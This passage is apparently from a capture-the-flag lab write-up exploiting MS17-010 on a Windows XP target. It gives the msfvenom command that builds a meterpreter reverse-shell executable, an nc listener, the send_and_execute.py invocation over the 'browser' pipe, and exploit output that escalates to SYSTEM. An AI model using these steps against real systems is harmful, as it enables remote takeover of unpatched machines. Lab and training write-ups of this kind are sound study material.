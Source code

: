```bash
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

So, now we know that we've got 2 pipes:
- spoolss
- browser
 
Since the browser always has a higher chance to be succeed, we'll be using that named pipe. Our next procedure is to craft a reverse shell executable that'll be sent and executed, for that, we'll use msfvenom.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shell.exe
```

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```
Now, we'll need to setup a listener for the reverse shell, we can use `nc`:
```bash
nc -lvnp 9001
```
Once the listener is setup, in another pane, we'll need to send this payload, we'll use the `send_and_execute.py` script.
```bash
python /opt/MS17-010/send_and_execute.py
/opt/MS17-010/send_and_execute.py <ip> <executable_file> [port] [pipe_name]
```
So , we'll use the following command to send the payload on the `browser` pipe:
```bash
python /opt/MS17-010/send_and_execute.py 10.10.10.4 shell.exe 445 browser
```

```bash
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1                                                                                 
Groom packets        
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8203a958
SESSION: 0xe1760918
FLINK: 0x7bd48 
InData: 0x7ae28                                   
MID: 0xa                          
TRANS1: 0x78b50               
TRANS2: 0x7ac90       
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1afdd78
userAndGroupCount: 0x3               
userAndGroupsAddr: 0xe1afde18
overwriting token UserAndGroups
```